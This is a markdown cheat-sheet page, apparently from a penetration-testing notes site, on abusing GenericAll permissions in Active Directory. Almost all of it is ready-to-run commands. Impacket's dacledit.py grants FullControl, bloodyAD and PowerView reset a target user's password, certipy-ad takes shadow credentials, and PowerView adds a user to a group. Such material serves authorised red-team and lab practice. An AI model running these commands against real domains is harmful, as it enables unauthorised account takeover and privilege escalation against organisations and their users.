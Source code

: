 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Directory", "Windows"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Change password

{{< tab set1-1 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Change target user password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Get shadow credentials

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

{{< /tabcontent >}}

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}
